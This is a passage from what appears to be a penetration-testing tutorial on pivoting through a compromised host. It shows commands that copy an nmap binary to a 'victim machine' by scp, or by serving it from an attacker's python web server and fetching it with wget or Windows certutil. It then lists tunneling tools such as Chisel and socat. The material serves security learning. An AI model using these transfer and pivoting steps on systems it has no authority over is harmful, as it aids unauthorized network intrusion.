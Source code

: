 and copy binary to victim machina via SSH:

```bash
scp nmap pivot@IP:/tmp #copy via ssh on /tmp victim machine directory 
```

or using hosting it on a python web server and downloading it on victim machine:

```bash
python3 -m http.server 80 #on attacker machine, on the same directory of nmap
wget http://10.10.10.4/nmap #if victim machine has Linux OS
certutil -urlcache -split -f http://10.10.10.4/nmap #if victim machine has Windows OS
```



Now, we've transferred nmap on victim/pivot machine and we can run it there:

```bash
./nmap IP #we need to use -Pn flag to scan Windows machines
```

## Pivoting phase

Now, we've scanning tool (bash script or nmap) to discover network and other subnets of victim/pivot machine, but we can't do a simple ping or scan to IP regarding external subnets from our attacker machine (kali).

To give a link between attacker machine and external iPs we need to using pivoting techniques.

#### **Tools for Pivoting**

* [Chisel](https://github.com/jpillora/chisel)
* Metasploit (auxiliary/server/socks\_proxy)
* Logolo-ng
* [Socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat)
* Netsh

### Chisel

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

{% embed url="https://github.com/jpillora/chisel" %}
